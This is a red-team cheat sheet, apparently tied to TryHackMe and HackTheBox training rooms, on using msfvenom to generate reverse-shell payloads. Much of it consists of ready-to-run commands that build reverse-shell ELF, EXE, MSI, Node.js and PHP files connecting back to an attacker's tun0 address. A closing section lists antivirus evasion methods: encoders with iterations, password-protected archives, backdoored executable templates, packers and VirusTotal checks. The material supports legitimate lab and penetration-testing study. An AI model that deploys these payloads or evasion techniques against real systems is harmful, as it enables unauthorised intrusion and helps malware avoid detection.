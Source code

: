 # 🐍 msfvenom 🐍

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)
[![metasploitexploitation](../../../_badges/thmp/metasploitexploitation.svg)](https://tryhackme.com/room/metasploitexploitation)
[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)

<div class="row row-cols-md-2"><div>

msfvenom is a tool of the [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) framework to generate payloads for reverse shells. We can customize payloads according to:

* 🎠 the program executing the payload <small>(PHP, python...)</small>
* 🏡 the target operating system
* 🛡️ the presence and configuration of a firewall
* 🔫️ the presence and configuration of an antivirus
* ...

```ps
$ msfvenom --list payloads
$ msfvenom --list payloads | grep meterpreter
```
</div><div>

msfvenom is often used with the [msfconsole](/cybersecurity/red-team/tools/frameworks/metasploit/_files/msf_handler.md) to catch them and pop a meterpreter shell <small>(see Metasploit framework, in short, an upgraded shell)</small>.

Metasploit separated **staged** payloads from **inline** payloads. The former is involving two steps: a simple payload <small>(called stage/stager)</small> is sent, which then request the rest of the payload. They are mainly used when there is a restriction on the size of the payload.

In Metasploit, the `_` is replaced with a `/` for staged payloads.

* `php/meterpreter_reverse_tcp`: inline/single
* `php/meterpreter/reverse_tcp`: staged
</div></div>

<hr class="sep-both">

## 🐸 Common options 🐸

<div class="row row-cols-md-2"><div>

**-p** to define the payload to use.

```ps
$ msfvenom -p cmd/unix/reverse_netcat [...]
```

**LHOST/LPORT** to define where the target will connect back.

```ps
$ msfvenom [...] LHOST=tun0 LPORT=4444
```

**-f** to define the format of the output. For instance, raw code.

```ps
$ msfvenom [...] -f raw
$ msfvenom [...] R # same for -f RAW
```
</div><div>

**-e** to define the encoding. It's mainly used to bypass firewall or reduce the size of the payload.

```ps
$ msfvenom [...] -e php/base64
```
</div></div>

<hr class="sep-both">

## 📌 Some payloads 📌

All examples are asking the target to connect back to `tun0` IP at the port `4444`.

<div class="row row-cols-md-2 mt-3"><div>

* **Linux** (.elf / ...)

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (RAW) opening a reverse shell with netcat
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 -f raw
```

* **Windows** (.exe / .msi / ...)

```bash
# Generate a .exe opening a reverse shell (TCP)
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe
# Generate a malicious installer (msi)
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f msi -o shell.msi
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

* **PHP**

```bash
# very unstable shell, not recommended
$ msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o revshell.php
# meterpreter
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o revshell.php
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Payload Encoding: make the payload comptabible with different architectures and help with antivirus evasion.

* Shikata Ga Nai (SGN): good but still detected by modern antivirus. `-e x86/shikata_ga_nai`
* Use iterations to make it harder to detect: `-i 10`
* Password-protected archives are an additional antivirus evasion technique
* backdoored executable: use executable templates to hide the code
* Packers are also an alternative: [polypack](https://jon.oberheide.org/files/woot09-polypack.pdf)
</div><div>

Other options:

* `-a x86`: explicit architecture
* `--platform windows`: explicit platform
* `-k`: with backdoored executable, the original executable still runs as it was. If started from a terminal, a new terminal will (still) pop.
* `-x xxx.exe`
* `-o xxx.exe`

Test on Virus Total: `msf-virustotal -k <API key> -f xxx.exe`
</div></div>